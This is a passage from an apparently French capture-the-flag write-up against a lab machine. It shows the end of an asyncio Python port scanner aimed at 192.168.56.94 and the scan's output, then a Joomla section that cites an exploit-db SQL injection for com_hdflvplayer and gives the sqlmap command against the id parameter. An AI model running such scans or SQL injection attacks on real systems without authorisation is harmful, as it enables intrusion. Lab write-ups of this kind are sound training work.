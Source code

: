 ```python
            transport, protocol = await loop.create_connection(
                lambda: PortscanProtocol(port, task),
                '192.168.56.94',
                port
            )
        except OSError as exception:
            print(exception)
            tasks.remove(task)

        while True:
            if len(tasks) > 30:
                done, __ = await asyncio.wait(tasks, timeout=0.2, return_when=asyncio.FIRST_COMPLETED)
                if done:
                    for task in done:
                        tasks.remove(task)
                        await task
            else:
                break

    await asyncio.sleep(1)

asyncio.run(main(sys.argv[1]))

```

C'est tout de même assez long mais éventuellement on y arrive :

```
$ python3 find_port.py
port 22 is real
port 13370 is real
```

J'ai aussi remarqué que si la cadence est trop rapide le faux service crashe et on obtient des erreurs *No route to host*.

Une astuce pourrait être de bourriner exprès et de faire ensuite un scan normal en ignorant ces erreurs.

## JoomJoom

Sur le port 13370 on trouve une installation de *Joomla!*

Je trouve cet exploit sur exploit-db :

[Joomla! Component com_hdflvplayer &lt; 2.1.0.1 - SQL Injection - Multiple webapps Exploit](https://www.exploit-db.com/exploits/35220)

Bien qu'il y ait un code d'exploitation il y a aussi un exemple pour utiliser `sqlmap`, j'applique donc à mon URL :

```bash
python sqlmap.py -u "http://192.168.56.94:13370/index.php?option=com_hdflvplayer&id=4" -p id --dbms mysql  --risk 3 --level 5
```
